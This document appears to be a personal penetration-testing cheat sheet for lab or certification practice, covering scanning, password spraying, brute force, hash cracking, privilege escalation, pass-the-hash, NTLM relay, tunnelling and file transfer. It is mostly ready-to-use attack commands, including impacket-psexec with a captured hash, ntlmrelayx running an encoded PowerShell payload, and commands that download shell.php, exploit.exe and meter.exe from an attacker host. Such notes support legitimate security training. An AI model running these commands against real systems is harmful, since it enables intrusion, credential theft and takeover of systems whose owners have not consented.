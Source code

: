 #### 1. Port Scanning
`ping <IP> -c1`
`ttl=64` Linux
`ttl=128`  Windows

**Full TCP Scan**
`nmap -p- -T4 <target>`

**Nmap Aggressive Scan**
`nmap -sC -sV -A -p<ports_from_prior_scan> -oA nmap/initial_scan <target>`

**Top 1000 Ports Scan**
`nmap -sC -sV <target>`

**UDP Scan**
`sudo nmap -sU -p- <target>`

#### 2. Service Enumeration

**Version Detection**
`nmap -sV <target>`

**Service Detection**
`nmap -sV -sC <target>`

**Banner Grabbing**
nc -nv <target> <port> 
telnet <target> <port>

**NMAP**
  nmap sweep scan 
  - nmap -sP 10.10.155.1-225
  Most used nmap scan
  - nmap -p- -A -T4 -sV 10.10.155.5

  THREADER3000
cp ~/Files/Tools/threader3000/threader3000.py .

**Nikto**
nikto -h http://10.10.122.227

**Weak Credentials**

kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1

##Validating the Credentials with CrackMapExec
sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123

PS C:\Tools> import-module .\DomainPasswordSpray.ps1
PS C:\Tools> Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue

HTTP Brute Force

wfuzz POST
wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php

hydra POST
hydra 192.168.30.161 -s 80 http-form-post "/admin/index.php:user=^USER^&password=^PASS^:Moved Temporarily" -l admin -P /root/Documents/SecLists/Passwords/korelogic-password.txt -t 20

wfuzz NTLM
wfuzz -c --ntlm "admin:FUZZ" -z file,/root/Documents/SecLists/Passwords/darkc0de.txt --hc 401 https://<ip>/api

wfuzz Basic Auth through Proxy
wfuzz -c --hc 404,400,401 -z file,/root/Documents/Audits/Activos/names.txt -z file,/root/Documents/Audits/Activos/names.txt --basic "FUZZ:FUZ2Z" -p 127.0.0.1:8080 https://<ip>/api/v1/

**Password Cracking**

zip
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt file.zip 

/etc/shadow
unshadow passwd shadow > passwords
john --wordlist=/usr/share/wordlists/rockyou.txt passwords

keepass
keepass2john /root/Desktop/NewDatabase.kdb > file
john -incremental:alpha -format=keepass file

**Linux Privilege Escalation**
id
sudo -l
sudo -i
uname -a
find / -writable -type d 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
grep -Rni . -e 'password' // search for interesting string recursively in files.
Run Linpeas
Run pspy64
sudo -V
run lse.sh
Kernel Exploits
OS Exploits
Password reuse (mysql, .bash_history, 000-default.conf...)
Known binaries with suid flag and interactive (nmap)
Custom binaries with suid flag either using other binaries or with command execution
Writable files owned by root that get executed (cronjobs)
MySQL as root
Vulnerable services (chkrootkit, logrotate)
Writable /etc/passwd
Readable .bash_history
SSH private key
Listening ports on localhost
/etc/fstab
/etc/exports
/var/mail
Process as other user (root) executing something you have permissions to modify
SSH public key + Predictable PRNG
apt update hooking (Pre-Invoke)
Capabilities

**Windows Privilege Escalation**
Kernel Exploits
OS Exploits
Pass The Hash
Password reuse
DLL hijacking (Path)
Vulnerable services
Writable services binaries path
Unquoted services
Listening ports on localhost
Registry keys

**Situational Awareness**
C:\> whoami /groups
PS C:\> Get-LocalUser
PS C:\> Get-LocalGroup
PS C:\> Get-LocalGroupMember Administrators
C:\> systeminfo
C:\> ipconfig /all
C:\> route print
C:\> netstat -ano

**Hidden in Plain View**
PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
PS C:\> Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
PS C:\> Get-Process
PS C:\> Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
PS C:\> Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
PS C:\> Get-ChildItem -Path C:\Users\dave\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue
C:\> net user steve
C:\> runas /user:backupadmin cmd

**Information Gathering Powershell**
PS C:\> Get-History
PS C:\> (Get-PSReadlineOption).HistorySavePath

**Passing NTLM**
kali@kali:~$ smbclient \\\\192.168.50.212\\secrets -U Administrator --pw-nt-hash 7a38310ea6f0027ee955abed1762964b

kali@kali:~$ impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

kali@kali:~$ impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.50.212

**Cracking Net-NTLMv2**
kali@kali:~$ sudo responder -I tap0  C:\> dir \\IP_Kali\test

kali@kali:~$ hashcat -m 5600 paul.hash /usr/share/wordlists/rockyou.txt --force

**Relaying Net-NTLMv2**
kali@kali:~$ impacket-ntlmrelayx --no-http-server -smb2support -t IP_Target -c "powershell -enc JABjAGwAaQBlAG4AdA..."

when finding backup SAM and SYSTEM files in windows.old/Windows/system32

kali@kali:~$ impacket-secretsdump -sam SAM -system SYSTEM LOCAL > SAMhashes

**Tunneling & Port Forwarding**

**ligolo - https://github.com/nicocha30/ligolo-ng**
### Access to agent's local ports (127.0.0.1) https://github.com/nicocha30/ligolo-ng?tab=readme-ov-file#access-to-agents-local-ports-127001


 ./proxy -selfcert
 
sudo ip route add 172.16.1.0/24 dev ligolo

./agent -connect <ip>:11601 -ignore-cert

root@DANTE-WEB-NIX01:~# ./agent -connect 10.10.14.4:11601 -ignore-cert
WARN[0000] warning, certificate validation disabled

INFO[0000] Connection established   addr="10.10.14.4:11601"


**Reverse Shells**
https://www.revshells.com/
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

**Upgrade Shell**
python -c 'import pty;pty.spawn("/bin/bash")’

**HTTP Server**


**Windows File Transfer**

python3 -m http.server 

wget.exe http://<ip>/file -o file

certutil -urlcache -split -f  https://<ip>/file.txt -o file.txt

bitsadmin /transfer debjob /download /priority normal http://<ip>/shell.php c:\xampp\htdocs\shell.php

cscript wget.vbs http://<ip>/test.txt test.txt

powershell -c "(new-object System.Net.WebClient).Downloadfile('http://<ip>/exploit.exe', 'C:\Windows\temp\exploit.txt')"

ftp

client:

echo open [ip] [port] > ftpscript.txt
echo anonymous>> ftpscript.txt
echo PASS >> ftpscript.txt
echo bin >> ftpscript.txt
echo get meter.exe>> ftpscript.txt
echo quit >> ftpscript.txt
ftp -s:ftpscript.txt
server:

python -m pyftpdlib  --port=2121 --write

**Hex to decimal**
https://byjus.com/maths/hex-to-decimal/
